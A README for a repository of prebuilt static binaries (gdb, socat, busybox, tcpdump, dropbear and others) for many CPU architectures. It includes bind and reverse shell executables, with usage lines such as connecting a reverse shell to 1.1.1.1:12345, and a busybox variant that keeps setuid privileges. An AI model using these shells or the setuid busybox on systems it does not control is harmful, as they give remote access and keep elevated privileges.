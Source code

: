 # prebuilt-multiarch-bin

prebuilt binaries for multiple architeture (arm, armeb, aarch64, aarch64_be, mips, mips1, mipsel, mipsel1, mips64, mips64el, powerpc, powerpc64, powerpc64le, riscv64, i586, x86_64)

all binaries are statically linked and stripped
## Buildroot

* MIPS-I and MIPSEL-I are using `buildroot 2014.11` because they remove the support after that version
* others are using `buildroot 2019.11.1`
* compiled toolchain can be found at action's artifacts page (mips1/mipsel1 are file package from `output/host`, others are from `make sdk`)

## Items

- gdb (mips1/mips1el are using `gdb 7.12.1`, others are `8.3.1`)
- socat
- busybox (And busybox_nodrop is the one replace all BB_SUID_DROP with BB_SUID_MAYBE, which means it will not drop suid in applets)
- bind/reverse shell
- bind/reverse shell .so library (barely tested)
- tcpdump
- strace
- dropbear(mips1/mips1el are not static link :( )
- lsof

## Bind/Reverse Shell binary

* run the bind shell without arguments like `./bind_shell` will listening on the port 3343 and `./bind_shell 6666` will listen on 6666.
* run the reverse shell binary without arguments will connect to 127.0.0.1:3343 , one could use a hex editor the change cstring cotains the ip/port. or `./reverse_shell 1.1.1.1 12345` will connect to 1.1.1.1:12345; `./reverse_shell 1.1.1.1` will connect to 1.1.1.1:3343

## gdb (*Important*)

- gdbserver is compiled without libthread_db
- gdb need libthread_db.so.1 to support multithread debug, if you run into SIGSEGV when `r` the program, run `set libthread-db-search-path 0` in gdb first, then there will be warning about libthread_db.so.1, just ignore it.

## Github Actions

the config file for buildroot and github actions' workflow file are in the `src` branch